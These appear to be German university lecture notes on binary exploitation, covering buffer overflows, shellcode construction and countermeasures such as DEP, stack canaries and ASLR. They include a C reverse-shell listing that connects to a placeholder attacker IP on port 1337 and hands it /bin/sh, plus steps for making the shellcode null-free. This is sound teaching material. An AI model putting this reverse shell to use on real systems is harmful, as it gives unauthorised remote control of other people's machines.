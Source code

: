 Datum: 07.11.
[[Master/Semester 1/IT Security/Slides/05 Applied Binary Exploitation.pdf|Folien]]
[[Master/Semester 1/IT Security/Übungen/05 Applied Binary Exploitation.pdf|Übung]]

# Applied Binary Exploitation

## Static Analysis

Analyse von Assembly durch angucken

`rip`: Spezialregister für instruction pointer (manipuliert mit `jmp`)
Intel syntax: `mov [target] [src]`

**Tool: `objdump`** - disassembly von Binaries

## Dynamic Analysis

Analyse von Assembly durch ausführen

**Tool: Debugger (`gdb`)**

gdb command `disassemble` macht dasselbe wie `objdump`
`set $pc = 0x...` setzt den instruction pointer
`set $rdi = ...` setzt Register rdi

## Buffer Overflow

Daten in den Buffer schreiben, die größer sind als der Buffer

`strcpy` überprüft nicht, ob der Buffer groß genug ist
`memcpy(dst, src, n)` auch nicht
`gets`: stdin in Buffer lesen, bis `\n` oder `EOF` kommt (wird durch `\0` ersetzt) - auch keine Checks und ist deprecated

Mit buffer overflows können Variablen und Returnadressen im Stack überschrieben werden

## Shellcode

Ein Shellcode ist ein Code, der bei Ausführung eine Shell (`/bin/sh`) startet.

*Ausführen eines Shellcodes mit Buffer-Overflow:*
- Schreibe `execve("/bin/sh")` in Assembly
- wandle diesen Code in Bytecode um
- Schreibe diesen Bytecode in den Buffer -> unser Code ist nun auf dem Stack
- fülle den Rest vom Buffer
- Unterhalb vom buffer liegen (irgendwann) geretteter `rbp` und die return-Adresse
- durch Buffer overflow: fülle `rbp` und ersetze Rücksprungadresse mit Adresse des Buffers (auf dem Stack)

**Remote Shell**
Meistens möchten wir über einen Shellcode Zugriff auf ein entferntes System erhalten.

Wir schreiben unseren shell code erst mal in C, danach bauen wir ihn (manuell) in Assembly nach.

Was macht der Shellcode?
- Öffnet einen [[SysProg - VL 11#Sockets|Socket]]
- verbindet den Socket mit unserem Rechner
- lenkt stdin und stdout zu diesem Socket
- führt `/bin/sh` aus

```c
/* Allocate a socket for IPv4/TCP (1) */
int sock = socket(AF_INET, SOCK_STREAM, 0);

/* Setup the connection structure (2) */
struct sockaddr_in sin;
sin.sin_family = AF_INET;
sin.sin_port = htons(1337);

/* Parse the IP address into network byte order (3) */
inet_pton(AF_INET, "unsere IP hier", &sin.sin_addr.s_addr);

/* Connect to the remote host (4) */
connect(sock, (struct sockaddr *)&sin, sizeof(struct sockaddr_in));

/* Duplicate the socket to STDIO (5) */
dup2(sock, STDIN_FILENO);
dup2(sock, STDOUT_FILENO);
dup2(sock, STDERR_FILENO);

/* Setup and execute a shell. (6) */
char *argv[] = {"/bin/sh", NULL};
execve("/bin/sh", argv, NULL);
```

Wir können das nicht einfach kompilieren, weil wir nicht die c library wrapper für syscalls möchten.

### C -> Shellcode

**1. Herausfinden von Syscalls**
Wir können mit `strace` den C-code ausführen und schauen, was für Syscalls gemacht werden.

**2. Syscall-Parameter**
Wir gucken nach, welche Parameter die Syscalls brauchen und in welche Register die gehören. Jeder Syscall ist identifiziert durch eine Nummer (kommt in `rax`).

**3. Rekonstruktion in Assembly**
Auf sowas wie network byte order, little endian etc. müssen wir selbst achten.

**4. In Hexstring umwandeln**
- In Object file umwandeln mit `nasm`
- Mit `objcopy` den Binary-Teil rauskopieren
- Mit `hexdump` als Hexcode anzeigen lassen


**5. De-Nullifying**

`strcpy` beendet bei Nullbyte, `scanf` bei anderen speziellen Bytes. Also möchten wir die im Shellcode gerne loswerden.

Zum Beispiel:
- `mov rax, 0` $\to$ `xor rax, rax` 
- `"/bin/sh\0"` $\to$ als Zweierkomplement in `rax` schreiben, dann `neg rax`

### Gegenmaßnahmen

- *Data Execution Prevention* (DEP): keine Daten vom Stack als ausführbaren Code interpretieren
- *Stack Canary:* zufälliger Wert auf dem Stack vor der Returnadresse, die vor dem Return überprüft wird $\to$ muss korrekt geraten werden, wenn man darüber hinaus auf den Stack schreiben möchte
- *ASLR:* Programm wird in zufälliger Speicheradresse geladen
	- Adresse vom Buffer (wir machen das ja immer noch mit Buffer-Overrun) vor Programmstart nicht bekannt

## Return-oriented Programming

